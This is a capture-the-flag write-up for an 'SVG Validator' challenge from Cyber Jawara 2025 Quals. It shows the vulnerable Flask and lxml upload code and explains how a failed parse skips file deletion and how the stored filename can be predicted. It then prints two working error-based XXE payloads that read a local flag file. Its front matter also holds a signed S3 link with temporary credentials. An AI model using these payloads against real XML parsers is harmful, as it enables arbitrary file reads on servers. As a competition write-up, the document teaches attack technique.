 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4666NXUTGWQ%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T092807Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJHMEUCIHhcML%2BSK7MNLSBPaypru5Em04mFM70B1OgA8v%2Bz7lokAiEAjHFALBLs5hQ5YAuQMPknZDaHUsi9o%2B0oiAXqlJ7vuDYqiAQI6v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDPqoKJ43fv5dOwRxTSrcA82nl%2B18vzNk3BO%2B%2B1Z6Zbc6izxp1mPmP%2BNVO8QkJRF%2FOSzyr3NK%2FeLA%2FCEN%2F2jezbJxccNHGqw0rUIZ3fB7bKS8OsDqnixgcY%2Fw3XXs7MCgqp%2BjkjuC9stmnuIfxyLlZRjAT3hM4YxSfBmUo%2B1JE%2BJOULAmEyuPUlhp7D9gEeCddpidXO%2BvPRH%2FLJyydfbMWRwhbm7r8M6owEUGTiZ2QRFJqAd%2F0NhAHV%2Bop3KQYse%2ByfJ4BC5eHeP8ZIbSPoVsFGLuTf9DK5A03k3KwxtpoCKut3BKmS68O4Hr%2FcBqOzXVJz2BkRla7HI26cTJiPTD6b3cf9H8W4JQoiJZsgpkCz%2F5qwHFFAZOsDBgghlwjQa%2BEXY9bsDjh55SLQk41qrSVx15GWWxjA9HDMAUi0hWEEvLDDuXX5pVB6NUHpgGxff7UdlQk4lhLjITmuXaxNISZDTFr6vdek233Cjn0TfH8Tae7bia7y49gc8VmwNluLB1X50suqp3fyajpXrqwmzBZTeihCFbZ9vNl6kIvBI5tPNi7UNFnoobDbN3%2BF5nOWw59EO1PkSC%2FplPk9wCtQ8i7d46W0TN9Qf4DdB6F8%2FO%2BRtik0z1%2B7jVUiUDtx%2F4uVp7Eh13QCKVw3FGNflzMLLxwMEGOqUBAkWcW0Hn4czZWFCAIdRTzDbEnvQpkKJyqfid8Ax%2BFOqH%2B%2FyoMjMauGrWh%2B0qBy8kyjJqD4byqb1C91wbz%2FiJc%2FXclFq7TFvvXAMfpKug456hOp6F8Y%2BbYSp3q7cYLHZQs16CTorpkzfdlSX51pa0XVngY3tdRPzH%2BsxDEzsbJyQn5VZ%2F3RfXsc5xES7fGCWAXzxHxHy5jqGsIW%2BWtdYjpsi1mswj\&X-Amz-Signature=3fa1eaa3d08f2112d06139f28e803df9eb56d933a97bb0396e046f94cc893269\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
